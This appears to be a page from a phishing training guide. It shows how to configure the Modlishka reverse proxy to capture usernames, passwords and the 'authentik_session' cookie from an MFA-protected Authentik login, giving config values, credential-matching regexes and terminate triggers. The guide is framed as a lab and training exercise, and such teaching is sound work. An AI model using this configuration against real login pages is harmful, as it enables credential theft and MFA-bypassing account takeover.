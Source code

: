 +++
title = "Reconfigure Modlishka With MFA Authentication Provider"
weight = 75
+++

Let's go through the authentication flow to determine what the username and password fields when conducting a normal login. First thing we want to do is open developer tools and ensure 'Persist Logs` is checked.

![Persist Logs](/static/how-to-phishing/authentik-devtools-persist-logs.png)

Now we can fill out the username field, press login, then look for the POST request.

![Username Request](/static/how-to-phishing/authentik-username-post-request.png)

Lets fillet our password and do the same.

![Password Request](/static/how-to-phishing/authentik-password-post-request.png)

We can see that the fields are `uid_field` and `password`.

Now we need to find a URL path that is only hit when the target successfully logs in. Lets finish the authentication process by completing the MFA challenge.

![Successful Login Request](/static/how-to-phishing/authentik-login-success-request.png)

Lets use `/if/user`.

Now we need to determine the session cookie.

![Authentik Session Cookie](/static/how-to-phishing/authentik-session-cookie.png)

Looks like `authentik_session` maybe the one we are after. We are lucky they used descriptive names and very few cookies.

Since we are testing in a lab environment, we need to configure `modlishka` to allow connections to private IPs. Change `disableSecurity` to `true` in the `config.json` file.

```json
  "disableSecurity": true,
```

We have all the required information to reconfigure Modlishka. Now we nee to start updating Modlishka configuration. We'll start with the `"target"` in Modlishka's configuration.

If you are in a live training, we'll want to configure are target to be the targets auth server.

```json
  "target": "auth.snakshare.com",
```

If not in a training this should be sufficient.

```json
  "target": "auth.target.docker:9000",
```

Now we need to create some regular expressions to match the username and password fields.

```bash
echo -n '"uid_field":\s*"(.+?)"' | base64
echo -n '"password":\s*"(.+?)"' | base64
```

![Base64 Cred Params](/static/how-to-phishing/modlishka-config-cred-params-base64.png)

We'll join these two values together with a comma, then update the `"credParams"` configuration value.

```json
  "credParams": "InVpZF9maWVsZCI6XHMqIiguKz8pIg==,InBhc3N3b3JkIjpccyoiKC4rPyki"
```

Finally, we need to update the `"terminateTriggers"` and `"terminateRedirectUrl"`.

```json
  "terminateRedirectUrl": "https://uvcyber.com/?phished",
  "terminateTriggers": "/if/user",
```
